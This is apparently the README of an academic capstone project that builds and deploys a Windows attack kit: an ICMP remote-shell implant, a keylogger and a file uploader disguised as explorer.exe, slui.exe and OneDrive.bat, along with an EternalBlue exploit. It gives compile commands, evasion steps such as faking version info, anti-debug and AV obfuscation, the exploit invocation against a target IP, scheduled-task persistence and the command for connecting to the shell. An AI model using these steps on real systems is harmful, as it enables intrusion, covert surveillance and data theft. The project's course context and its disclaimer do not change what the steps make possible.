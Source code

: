 # CS564 - Capstone Project

---

## Requirement

-   Linux host (Ubuntu/Kali)
    -   Python 2.7
        -   [Installer (python.org)](https://www.python.org/downloads/release/python-2718/)
        -   [Pip installer](https://bootstrap.pypa.io/pip/2.7/get-pip.py)
        -   `impacket`: Run `python2 -m pip install impacket`
-   Windows 7 (for compiling implants)
    -   [Python 3.4.4](https://www.python.org/downloads/release/python-344/)
        -   [PyWin32 221](https://github.com/mhammond/pywin32/releases/tag/b221)
        -   pip==19.1.1
        -   APScheduler==3.3.0
        -   certifi==2018.11.29
        -   cffi==1.15.1
        -   chardet==3.0.4
        -   charset-normalizer==3.1.0
        -   cryptography==2.8
        -   future==0.18.3
        -   idna==2.7
        -   pycparser==2.21
        -   PyInstaller==3.2.1
        -   pyinstaller-hooks-contrib==2022.0
        -   pynput==1.6.8
        -   pytz==2023.3
        -   requests==2.20.1
        -   six==1.16.0
        -   tzdata==2023.3
        -   tzlocal==2.1
        -   urllib3==1.24.3
    -   Visual C++ 2008 compiler.
        -   [Installer (archive.org)](https://web.archive.org/web/20210106040224/https://download.microsoft.com/download/7/9/6/796EF2E4-801B-4FC4-AB28-B59FBF6D907B/VCForPython27.msi)
    -   Visual Studio 2010 (do not use Express version)
        -   Visual C++ 10.0 with MFC
    -   Windows SDK 7.1
    -   [Resource Hacker](http://angusj.com/resourcehacker/) (for faking Version Info)

## Generating payload

We prepare a C2 package that communicates through ICMP protocol.

### Remote shell

To compile remote shell,
open Visual C++ 2008 32-bit Command Prompt, and type the
following. Remember to change `MY_IP` to the IP of commander.

```
cl.exe icmpsh-s.patch.c /D"MY_IP=\"192.168.191.128\""
```

### Keylogger (fileNew.py)

```
pyinstaller --additional-hooks-dir C:\Python34\Lib\site-packages\_pyinstaller_hooks_contrib\hooks\stdhooks --onefile --paths=C:\python34\lib\site-packages --windowed -i "C:\Windows\explorer.exe" fileNew.py
```

#### FileUploader (fileUploader.py)

```
pyinstaller --additional-hooks-dir C:\Python34\Lib\site-packages\_pyinstaller_hooks_contrib\hooks\stdhooks --hidden-import=queue --onefile --paths=C:\python34\lib\site-packages -i "C:\Windows\System32\slui.exe" fileUploader.py
```

Then use Resource Hacker to clone Version Info.

See `output/compiled.zip` for all Python compiled C2 payload.

## List of components when executing in attacker

-   `icmpsh-s.patch.exe` (Remote shell plant)
-   `explorer_32.exe` (Keylogger)
-   `OneDrive.bat` (Keylogger bootstrap)
-   `sluii.exe` (File Uploader)
-   `icmpsh_m3.py` (Remote shell connect)
-   `eBlue.py` (EternalBlue exploit)
-   `mysmb.py` (Necessary for EternalBlue)

## Infiltrate

Inside folder, `eBlue.py` is the exploit. Run

```
python2 eBlue.py 169.254.16.129
```

After running, the C2 package should now be stored inside the target system.
Additionally, a scheduled task is made to execute C2 in the future.

## Exfil

### Remote shell

Due to the protocol limitation, we need to connect using Linux system and
run the following command to disable automatic ICMP reply.

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1 >/dev/null
```

When the scheduled task run, in order to connect,
execute on our host:

```
sudo python3 icmpsh_m3.py 169.254.16.130 169.254.16.129
```

### Keylogger

This is executed on startup by `OneDrive.bat`.
Record data is stored in `%TMP%/Install.log`

### FileUploader

This can be executed by running

```
C:\WINDOWS\sluii.exe <file>
```

## Credits

-   `icmpsh-s.patch.c` and `icmpsh-m3.py` is based on [bdamele:icmpsh](https://github.com/bdamele/icmpsh)
-   `eBlue.py` from [Exploit-DB](https://www.exploit-db.com/exploits/42315)
-   Anti-debug techniques from [Anti-Debug Tricks](https://anti-debug.checkpoint.com/)
-   C obfuscation from [scrt:avcleaner](https://github.com/scrt/avcleaner)
-   [Resource Hacker](http://angusj.com/resourcehacker/)

## Disclaimer

Do not use this on systems unless you have been given explicit permission.
This is created for an academic course. We are not responsible for any
consequences both legally and ethically that are caused by the software.
